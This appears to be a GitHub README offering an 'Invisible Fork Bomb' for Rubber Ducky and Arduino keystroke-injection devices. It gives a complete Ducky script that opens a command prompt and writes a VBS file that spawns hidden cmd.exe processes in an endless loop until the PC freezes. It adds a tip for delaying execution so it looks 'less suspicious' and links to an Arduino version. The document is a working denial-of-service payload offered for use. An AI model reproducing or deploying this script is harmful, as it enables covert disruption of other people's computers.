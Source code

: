 # Invisible Fork Bomb for Arduino and Ducky
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: BlueArduino20

Version 1.0

# Code for Rubber Ducky

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb.ino">Invisible_fork_bomb.ino<a>
